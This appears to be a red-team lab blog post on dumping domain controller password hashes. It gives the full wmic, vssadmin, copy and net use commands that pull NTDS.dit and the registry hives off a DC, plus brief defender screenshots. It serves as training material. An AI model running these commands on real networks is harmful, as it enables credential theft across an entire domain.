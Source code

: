 ```yaml
---
layout: post
title: "dumping domain controller hashes via wmic and shadow copy using vssadmin"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin/
---
```


---
layout: post
title: "dumping domain controller hashes via wmic and shadow copy using vssadmin"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin/
---

# Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 213609.png>)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine (right) and the files being dumped to c:\temp on the DC01 on the left:

![](<../../.gitbook/assets/dc-dump (1).gif>)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 222654.png>)

Now, of you go extracting hashes with secretsdump as shown here:

{% content-ref url="ntds.dit-enumeration.md" %}
[ntds.dit-enumeration.md](ntds.dit-enumeration.md)
{% endcontent-ref %}

## Observations

A quick note for defenders on the proces ancestry:

![](<../../.gitbook/assets/Annotation 2019-05-23 213352.png>)

and of course commandlines:

![](<../../.gitbook/assets/Annotation 2019-05-23 223432.png>)

as well as service states:

![](<../../.gitbook/assets/Annotation 2019-05-23 223157.png>)

...and of course the lateral movement piece:

![](<../../.gitbook/assets/Annotation 2019-05-23 230027.png>)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)
@spotheplanet
